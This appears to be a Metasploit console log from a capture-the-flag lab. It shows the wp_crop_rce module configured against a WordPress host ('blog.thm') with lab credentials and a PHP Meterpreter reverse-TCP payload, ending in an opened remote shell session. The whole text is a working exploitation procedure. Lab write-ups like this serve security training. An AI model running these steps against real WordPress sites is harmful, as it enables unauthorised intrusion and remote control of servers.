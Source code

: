 ```
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/http/wp_crop_rce) > set LPORT 4242
LPORT => 4242
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME                    yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  4242             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS blog.thm
RHOSTS => blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD cutiepie1
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.14.31.20:4242 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39927 bytes) to 10.10.252.181
[*] Meterpreter session 1 opened (10.14.31.20:4242 -> 10.10.252.181:51048) at 2022-10-16 17:47:03 +0200
[*] Attempting to clean up files...

meterpreter >
```

